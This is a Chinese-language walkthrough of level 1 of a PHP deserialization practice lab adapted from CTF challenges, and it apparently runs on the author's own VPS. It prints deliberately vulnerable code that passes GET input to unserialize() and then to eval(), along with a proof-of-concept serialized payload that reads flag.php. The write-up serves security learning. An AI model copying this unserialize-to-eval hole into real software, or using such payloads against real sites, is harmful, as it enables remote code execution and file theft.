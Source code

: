 前几天在github上发现一个关于php反序列化漏洞的练习靶场，根据作者描述，是根据CTF题目进行改编的，正好对php反序列化的内容好像忘得差不多了，于是在自己的vps上用docker搭建起一个环境来练习一下。项目地址：

https://github.com/fine-1/php-SER-libs ， 靶机地址：http://101.43.8.119:8088/php-SER-libs/level1/  （这个vps只有一年，不懂哪天就倒闭了）

下面开始进行闯关：

#### 1.第一关

第一关代码：

```php
<?php
highlight_file(__FILE__);
class a{
    var $act;
    function action(){
        eval($this->act);
    }
}
$a=unserialize($_GET['flag']);
$a->action();
?>
<br><a href="../level2">点击进入第二关</a>
```

本关将GET方式传进去的flag，进行反序列化，并将结果赋值给变量$a,$a再执行类里的action方法，而action方法里面有会调用eval，执行$act变量,因此我们将$act的值设为show_source('flag.php');直接读取flag.php的内容，POC如下：

```php
<?php
class a{
    var $act = "show_source('flag.php');";
    function action(){
        eval($this->act);
    }
}
$a=new a();
$a->action();
echo serialize($a); 
//  O:1:"a":1:{s:3:"act";s:24:"show_source('flag.php');";}
?>
 
```

![img](assets/1654512103891-6b14bd6e-5b1c-4c8c-ad20-adb7a646e76f.png)
